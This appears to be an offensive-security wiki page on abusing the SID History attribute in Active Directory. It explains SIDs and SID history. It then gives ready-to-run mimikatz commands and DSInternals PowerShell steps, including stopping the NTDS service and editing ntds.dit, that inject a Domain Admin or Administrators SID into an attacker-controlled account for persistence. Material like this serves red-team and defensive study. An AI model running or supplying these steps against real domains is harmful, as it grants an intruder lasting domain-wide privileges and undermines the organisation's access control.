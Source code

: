 ## Theory
The SID (Security Identifier) is a unique identifier that is assigned to each security principal (e.g. user, group, computer). It is used to identify the principal within the domain and is used to control access to resources.

The SID history is a property of a user or group object that allows the object to retain its SID when it is migrated from one domain to another as part of a domain consolidation or restructuring. When an object is migrated to a new domain, it is assigned a new SID in the target domain. The SID history allows the object to retain its original SID, so that access to resources in the source domain is not lost.

This mechanism can also be abused as a means of persistence: adding the SID of a privileged account or group to the SID-History attribute of a controlled account grants rights associated with account/group of which the SID is added.

For instance, the SID of an account with Domain Admin rights can be added to a normal user SID History to grant them Domain Admin rights (the rights would not be granted per say, but the modified account would be treated as domain admin when checking rights).

## Explott
1. Pre-windows 2016

Modifying the SID History attribute of an object can be done using mimikatz, with the `sid::patch, sid::add and sid::lookup `scommands.
```bash
# Generic command
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:UserRecievingTheSID /new:SIDOfTheTargetedUserOrGroup"

# Example 1 : Use this command to inject the SID of built-in administrator account to the SID-History attribute of AttackerUser
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:Builtin\administrators "

# Example 2 : Use sid::lookup to retrieve the SID of an account and inject it to the SID-History attribute of AttackerUser
mikikatz.exe "sid::lookup /name:InterestingUser"
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:SIDOfInterestingUser"
```
2. Post-Windows 2016
The only known way to add a SID to the SID History attribute of an account on a Windows domain controller 2016 and above is to use the Powershell module [DSInternals]. This method also works for Pre-Windows 2016 domain controllers.
```bash
# Install DSInternals on the domain controller
Install-Module -Name DSInternals

# Find the account SID you want to inject
Get-ADUser -Identity $InterestingUser

# Stop the NTDS service
Stop-service NTDS -force

# Inject the SID into the SID History attribute
Add-ADDBSidHistory -samaccountname AttackerUser -sidhistory $SIDOfInterestingUser -DBPath C:\Windows\ntds\ntds.dit

# Start the NTDS service
Start-service NTDS
```